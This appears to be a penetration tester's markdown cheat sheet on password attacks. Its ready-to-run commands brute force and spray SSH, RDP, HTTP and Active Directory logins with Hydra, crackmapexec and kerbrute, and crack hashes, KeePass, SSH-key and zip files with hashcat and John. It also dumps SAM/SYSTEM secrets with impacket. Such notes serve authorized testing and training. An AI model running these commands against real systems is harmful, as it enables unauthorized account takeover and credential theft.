 ## Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

## nmap

The `passwords.txt` argument can be ommitted, if it is then a default password database will be used. It will begin with checking if the password is the same as the username, which is a nice touch that's easily forgotten about otherwise.
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt <target IP>
```

## Hash Cracking

### Hashcat
Standard `hashcat` usage:
```bash
hashcat crackable.txt /usr/share/wordlists/rockyou.txt
```
For debugging a new rule:
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt
hashcat -r newrule.rule --stdout demo.txt
```
See https://hashcat.net/wiki/doku.php?id=rule_based_attack for docs on the syntax for rules based attacks. Spaces separate discrete instructions to apply to one word. Newlines define a new pattern to attempt. Save it in a `.rules` file.
```bash
hashcat -m <insert hashing algo id here (0 for md5)> crackme.txt /usr/share/wordlists/rockyou.txt -r nonsense.rule --force
```

All of the above is kinda cringe though. Just make use of a rulefile thats been crafted for us:
```bash
hashcat -m 0 crackable.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


### Hashid
Hashcat seems to kinda suck at identifying the hash in use for some reason. Fortunately `hashid` doesn't. Nb. take care to use quotes, particularly if your hash starts with a `$` or other syntactically important character.
```bash
hashid "$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC"
```

### keepass2john
```bash
keepass2john allTehS3cre75.kdbx > keepass.hash
```
Be sure to drop the username and colon that is prepended to `keepass.hash`. Hashcat will parse it as a salt and get sad otherwise.
```bash
hashcat -h | grep KeePass | awk -F ' ' '{print $1}' 
hashcat -m <output of the above> keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### JohnTheRipper
In the event that Hashcat isn't working for whatever reason, consider making use of John:
```bash
john --wordlist=<password list> --rules=<rule Name> <our Hash>
```
Nb. with rules passed to John we can use the same syntax as with Hashcat, however we must prepend the file with:
```
[List.Rules:<rule Name>]
```
and we must be sure to add the rule file to the John config:
```bash
sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'
```

If we have an `id_rsa` file that we've managed to dump via some means (eg. path traversal in an http server) the we must first make it digestible for John:
```bash
ssh2john id_rsa > ssh.hash
```
nb. if we want to later log in to the SSH server using the credentials we've just recovered we may need to go ahead and `chmod` the private key file. Try both 600 and 400.

Similarly if we have an encrypted zip, then we'll wanna get it back to Kali, then run:
```bash
zip2john zippyboi.zip > hopefully-crackable
```
then
```bash
john hopefully-crackable
```

## Active Directory Password Cracking

Back to directly targeting an authentication interface, now in the context of AD. For all of the following it is well worth checking the password policy with `net accounts` in order to be sure that we don't immediately get locked out of every account we hit. All of the following assume that we have obtained a plaintext password by some other means, but don't yet have a matching username.

### Spray-Passwords.ps1
Querying LDAP and ADSI with user creds. This will need to be run on the target machine, however a benefit of this is that it will enumerate which users to hit for us.
```powershell
.\Spray-Passwords.ps1 -Pass 'bigboi123!' -Admin
```
```powershell
.\Spray-Passwords.ps1 -File passwords.txt -Admin
```

### crackmapexec
Another approach to password spraying against a Windows machine is available to us courtesy of `crackmapexec`. To target SMB shares with a username list and a known/candidate password (nb. We should take care to check the domain password policy with `net accounts` before we start blasting):
```bash
crackmapexec smb 192.168.12.34 -u users.txt -p '123456' -d corp.com --continue-on-success
```

### kerbrute
This time our brute forcing is aimed at obtaining a Kerberos Ticket Granting Ticket (TGT):
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "password123"
```

### SAM/SYSTEM
If we have managed to find a backup of an old Windows system then we may have unprivileged access to a SYSTEM and SAM file, containing secrets and credentials from that old system. Some of the hashes may still be relevant. Get the `SAM` and `SYSTEM` files back to Kali and parse like so:
```bash
impacket-secretsdump -sam SAM -system SYSTEM local > old-hashes.txt
```
